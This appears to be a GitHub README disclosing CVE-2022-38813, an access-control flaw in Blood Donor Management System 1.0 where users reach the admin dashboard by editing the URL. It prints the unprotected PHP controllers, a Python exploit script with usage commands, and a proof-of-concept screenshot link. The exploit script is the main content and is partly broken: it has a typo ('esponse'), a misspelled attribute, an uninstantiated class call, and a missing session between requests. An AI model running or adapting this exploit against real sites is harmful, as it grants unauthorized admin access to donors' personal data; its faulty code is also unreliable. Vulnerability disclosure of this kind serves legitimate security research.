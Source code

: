 # CVE-2022-38813

Veritical Privilege Escalation via user parameter in Blood Donor Management System Using Codeigniter v 1.0

![CVE-2022-38813](https://user-images.githubusercontent.com/65374016/197400348-7c063a8f-3f30-4683-8839-97d6b52f33e5.png)


# Technical description:

Blood Donor Management System 1.0 does not properly restrict access to admin/dashboard.php, which allows attackers to access all data of users, delete the users, add and manage Blood Group, and Submit Report.

## Affected components - Source Code

in following Source Code we can see that user/dashboard does not properly restrict an user paramters so attacker can change that paramter to admin parameter and gain access the admin account

Vulnerable Page - Dashboard.php in User & Dashboard.php in Admin

```php
  // Dashboard.php in User
class Dashboard extends CI_Controller
{
	//Validating login
	function __construct()
	{
		parent::__construct();
		if (!$this->session->userdata('uid'))
			redirect('user/login');
	}


	public function index()
	{
		$this->load->view('user/dashboard');
	}
}

```

###### Change user paramter to admin in url ie: localhost/blood/user/dashboard to localhost/blood/admin/dashboard

```php
  // Dashboard.php in Admin
<?php
defined('BASEPATH') or exit('No direct script access allowed');

class Dashboard extends CI_Controller
{

	public function index()
	{
		$this->load->model('admin/Dashboard_Model', 'adminn');
		$totalusercount = $this->adminn->totalusercount();
		$totalbloodgroupcount = $this->adminn->totalbloodgroupcount();
		$this->load->view('admin/dashboard', ['totalusercount' => $totalusercount, 'totalbloodgroupcount' => $totalbloodgroupcount]);
	}
}


```

# Exploit

```python
import argparse
import requests
from termcolor import cprint
import sys
from bs4 import *
color = "green"
cprint("[+] CVE-2022-38813 Authenticated Privilege Escalation in Blood Donor Management System v1.0", color)
cprint("[+] Author: RashidKhan Pathan aka iHexCoder", color)
cprint("[!] Usage: run exploit.py username password payload", color)
cprint("[!] Example: python3 exploit.py admin johndoe@gmail.com Test@123", color)


class PrivilegeEscalation:
    color = "green"

    def __init__(self, username, password, payload):
        self.username = username
        self.password = password
        self.paylaod = payload

    def authentication(self):
        color = "green"
        cprint("[+] Authenticating User", color)
        cprint("[+] Username: " + args.username, color)
        cprint("[+] Password: " + args.password, color)
        cprint("[+] Payload: " + args.payload, color)

        login_url = "http://localhost/blood/user/login"

        data = {
            "email": args.username,
            "password": args.password
        }
        login_response = requests.post(login_url, data=data)

        cprint("[+] Exploiting...Started", color)
        if "/user/login" in login_response.url:
            cprint("[+] Credentials is not Valid", "red")
            sys.exit(1)
        else:
            cprint("[+] Authenticated Successfully as a Normal User ", color)
            cprint("[+] Normal User URL Endpoint " + login_response.url, color)

        url = args.payload
        if args.payload != "admin":
            cprint("[+] Please Add Valid Payload", "red")
            sys.exit(1)

        response = requests.get(f"http://localhost/blood/{url}/dashboard")
        cprint("[+] Exploit Compleated", color)
        cprint("[+] Accessed Admin Panel Successfully " + response.url, color)
        cprint("[+] Copy the URL and Replace with user/dashboard URL with " +  esponse.url, color)
        cprint("[+] After Replacing it You Should see the Bypassed Admin Panel", color)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("username", help="Please Add Username", type=str)
    parser.add_argument("password", help="Please Add Password", type=str)
    parser.add_argument("payload", help="Please Add Password", type=str)
    args = parser.parse_args()

    privilegeEscalation = PrivilegeEscalation
    privilegeEscalation.authentication((args.username, args.password, args.payload))

```

# CVE-2022-38813.py usage -

```sh
# Changes The Vulnerable user paramter from url to escalate privileges normal user to admin -
python3 CVE-2022-38813.py <username> <password> <payload>
```

## Example -

```sh
python CVE-2022-38813.py johndoe@gmail.com Test@123 admin
```

# Exploit Proof of concept (Poc) -

![Screenshot 2022-10-23 194928](https://user-images.githubusercontent.com/65374016/197400391-1c07de7d-3433-4d3e-a35a-952f9efc1cfb.png)


# References -

Software Link: https://phpgurukul.com/blood-donor-management-system-using-codeigniter

# Discovered & Developed by -

RashidKhan Pathan (iHexCoder), 9 September 2022.
Twitter: @itRashid
